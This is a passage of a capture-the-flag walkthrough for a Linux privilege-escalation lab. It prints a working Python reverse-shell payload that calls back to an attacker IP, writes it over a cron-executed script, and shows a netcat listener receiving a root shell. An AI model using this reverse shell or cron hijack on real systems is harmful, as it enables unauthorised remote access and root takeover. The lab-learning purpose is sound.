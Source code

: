 ```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.9.**.**",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

## #8.5 - What directory is the "autoscript.sh" under?

We already found it in #4.5. The script is located in `/home/user4/Desktop`

## #8.6 - Lets replace the contents of the file with our payload using: "echo [MSFVENOM OUTPUT] > autoscript.sh"

Now, let's replace the initial script with our payload:

~~~
user4@polobox:~$ printf "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.9.**.**\",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n" > /home/user4/Desktop/autoscript.sh 
~~~

## #8.7 - After copying the code into autoscript.sh file we wait for cron to execute the file, and start our netcat listener using: "nc -lvp 8888" and wait for our shell to land!

Start the listener on your machine and wait... (maximum 5 min):

~~~
$ nc -nlvp 1234
~~~

## #8.8 - After about 5 minutes, you should have a shell as root land in your netcat listening session! Congratulations!

After a while, you will be root:

~~~
$ nc -nlvp 1234
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.9.117.
Ncat: Connection from 10.10.9.117:51804.
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# 
~~~
